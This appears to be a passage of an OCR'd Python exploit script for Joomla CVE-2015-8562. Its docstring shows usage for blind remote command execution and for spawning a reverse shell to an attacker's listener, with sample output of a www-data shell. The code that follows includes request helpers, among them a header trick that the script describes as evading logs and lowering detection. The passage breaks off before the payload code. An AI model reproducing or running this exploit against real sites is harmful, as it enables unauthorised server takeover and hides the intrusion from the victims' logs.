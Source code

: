     '''
        Blind RCE:
        python joomla-cve-2015-8562.py -t http://192.168.0.1/ --cmd
        $ touch /tmp/test
        Spawn Reverse Shell:
        python joomla-cve-2015-8562.py -t http://192.168.0.1/ -l 192.168.0.2 -p 1337
        [-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: http://192.168.0.1/
        [-] Uploading python reverse shell with LHOST:192.168.1.119 and LPORT:1337
        <Response [200]>
        [+] Spawning reverse shell....
        <Response [200]>
        Listening on [0.0.0.0] (family 0, port 1337)
        $ id
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
    '''

    import requests
    import subprocess
    import argparse
    import sys
    import base64
    import string
    import random
    import time
    import urllib3

    def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
        return str(''.join(random.choice(chars) for _ in range(size)))

    def get_url(url, user_agent, ua_method, proxyDict):
        if ua_method == True :
            # Defaul PoC
            headers = {
            'User-Agent': user_agent
            }
        else:
            # Firefox user_agent and x-forwarded-for method to evade log and lower detection
            headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0',
            'X-Forwarded-For': user_agent
            }
        try:
            cookies = requests.get(url,headers=headers, proxies=proxyDict, verify=False).cookies
            for _ in range(3):
                response = requests.get(url, headers=headers,cookies=cookies, proxies=proxyDict, verify=False)
            return response
        except requests.exceptions.MissingSchema:
            print "\033[1;31;10m\n[!] Missing http:// or https:// from Target URL\n\033[1;37;10m"
            sys.exit(1)
